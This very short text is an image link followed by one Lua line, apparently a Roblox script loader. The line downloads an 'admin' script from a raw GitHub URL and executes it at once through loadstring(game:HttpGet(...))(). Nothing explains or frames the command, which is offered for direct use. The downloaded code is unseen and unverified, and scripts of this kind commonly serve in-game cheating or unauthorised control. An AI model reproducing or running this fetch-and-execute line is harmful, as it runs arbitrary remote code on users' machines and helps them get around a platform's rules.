 loadstring(game:HttpGet("https://raw.githubusercontent.com/ScriptCreater/cmd/refs/heads/main/scripts/admin"))()
